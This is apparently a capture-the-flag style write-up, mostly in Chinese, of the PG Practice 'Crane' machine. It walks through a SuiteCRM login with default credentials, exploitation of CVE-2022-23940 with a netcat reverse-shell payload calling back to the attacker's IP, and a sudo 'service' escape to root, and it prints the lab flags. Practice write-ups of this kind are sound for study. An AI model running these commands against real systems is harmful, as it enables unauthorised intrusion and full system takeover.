

###### tags: `Offsec` `PG Practice` `Intermediate` `Linux`

# Crane
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.219.146 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.219.146:22
Open 192.168.219.146:80
Open 192.168.219.146:3306
Open 192.168.219.146:33060

PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp    open  http    syn-ack Apache httpd 2.4.38 ((Debian))
|_http-favicon: Unknown favicon MD5: ED9A8C7810E8C9FB7035B6C3147C9A3A
| http-title: SuiteCRM
|_Requested resource was index.php?action=Login&module=Users
| http-robots.txt: 1 disallowed entry 
|_/
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3306/tcp  open  mysql   syn-ack MySQL (unauthorized)
33060/tcp open  mysqlx? syn-ack
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

查看`192.168.219.146`可以找到一個login，可利用`admin/admin`登入，查看`http://192.168.219.146/index.php?module=Home&action=About`可以看到版本為`Version 7.12.3 `



google搜尋可以找到[CVE-2022-23940](https://github.com/manuelz120/CVE-2022-23940)用它但經過重重困難，要使用[pyenv](https://www.kali.org/docs/general-use/using-eol-python-versions/)來切成python為`3.8.18`
```
┌──(kali㉿kali)-[~/pgplay]
└─$ git clone https://github.com/manuelz120/CVE-2022-23940.git

┌──(kali㉿kali)-[~/pgplay/CVE-2022-23940]
└─$ pyenv install 3.8 

┌──(kali㉿kali)-[~/pgplay/CVE-2022-23940]
└─$ pyenv global 3.8.18
                                                 
┌──(kali㉿kali)-[~/pgplay/CVE-2022-23940]
└─$ pyenv versions
  system
  2.7.18
* 3.8.18 (set by /home/kali/.pyenv/version)

┌──(kali㉿kali)-[~/pgplay/CVE-2022-23940]
└─$ pip install -r "requirements.txt"

┌──(kali㉿kali)-[~/pgplay/CVE-2022-23940]
└─$ pip install click

┌──(kali㉿kali)-[~/pgplay/CVE-2022-23940]
└─$ pip install requests
```

開啟nc，使用自己的payload，他的不知道為啥不能用
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9001

┌──(kali㉿kali)-[~/pgplay/CVE-2022-23940]
└─$ python exploit.py -h http://192.168.219.146 -u admin -p admin -P "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.175 9001 >/tmp/f" 
INFO:CVE-2022-23940:Login did work - Trying to create scheduled report
```

等反彈，在`/var/www`可得local.txt
```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@crane:/var/www$ cat local.txt
e75ef03130321e27dc70c8f654fa32b6
```

查看`sudo -l`，查看[GTFOBins](https://gtfobins.github.io/gtfobins/service/#shell)，得到root在`/root`可得到proof.txt
```
www-data@crane:/tmp$ sudo -l
Matching Defaults entries for www-data on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/service
www-data@crane:/tmp$ sudo /usr/sbin/service ../../bin/sh
# whoami
root
# cat proof.txt
6e7648e8e5e70387cede5159357f7f77
```